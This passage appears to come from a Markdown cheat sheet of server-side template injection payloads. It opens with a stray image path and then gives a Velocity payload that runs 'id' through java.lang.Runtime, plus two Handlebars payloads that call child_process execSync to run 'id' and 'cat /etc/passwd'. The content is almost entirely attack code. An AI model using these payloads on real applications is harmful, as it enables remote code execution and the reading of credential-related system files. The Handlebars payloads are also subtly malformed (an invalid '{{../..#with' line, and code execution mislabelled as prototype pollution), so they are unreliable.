     - **Remote code execution**
      ```
      #set($x=$request.getClass().forName("java.lang.Runtime").getDeclaredMethod("getRuntime"))
      #set($x=$x.setAccessible(true))
      #set($rt=$x.invoke(null))
      #set($p=$rt.exec("id"))
      ```
  
  - **Handlebars (JavaScript)**
    
    - **Prototype pollution**
      ```
      {{#with "s" as |string|}}
        {{#with "e"}}
          {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.constructor.prototype.toString)}}
            {{this.pop}}
            {{#with string.constructor.prototype}}
              {{#with "constructor"}}
                {{../..#with conslist}}
                  {{this.pop}}
                  {{this.push "return process.mainModule.require('child_process').execSync('id');"}}
                  {{this.pop}}
                  {{#with (string.constructor.constructor this)}}
                    {{this}}
                  {{/with}}
                {{/with}}
              {{/with}}
            {{/with}}
          {{/with}}
        {{/with}}
      {{/with}}
      ```
    
    - **Node.js RCE**
      ```
      {{#with "s" as |string|}}
        {{#with "e"}}
          {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.constructor.prototype.toString)}}
            {{this.pop}}
            {{#with string.constructor.prototype}}
              {{#with "constructor"}}
                {{../..#with conslist}}
                  {{this.pop}}
                  {{this.push "return require('child_process').execSync('cat /etc/passwd');"}}
                  {{this.pop}}
                  {{#with (string.constructor.constructor this)}}
                    {{this}}
                  {{/with}}
                {{/with}}
              {{/with}}
            {{/with}}
          {{/with}}
        {{/with}}
      {{/with}}
      ```
  